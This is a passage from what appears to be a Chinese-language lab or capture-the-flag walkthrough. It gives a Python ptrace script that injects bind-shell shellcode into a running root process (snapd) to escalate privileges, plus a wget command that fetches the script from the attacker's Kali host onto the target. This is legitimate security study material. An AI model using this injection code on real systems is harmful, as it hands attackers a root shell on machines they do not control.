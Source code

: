 ```python
# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)

```

在kali上部署该py文件，下载到靶机。

```
saket@ubuntu:~$ wget http://172.16.42.146/inject.py
```

在靶机上找到一个root的进程用于注入(随便挑选一个，这里是snapd，进程id是1311)

```
saket@ubuntu:~$ ps -aux | grep root
root        1311  0.1  1.2 1022648 52100 ?       Ssl  Nov18   0:39 /usr/lib/snapd/snapd
```

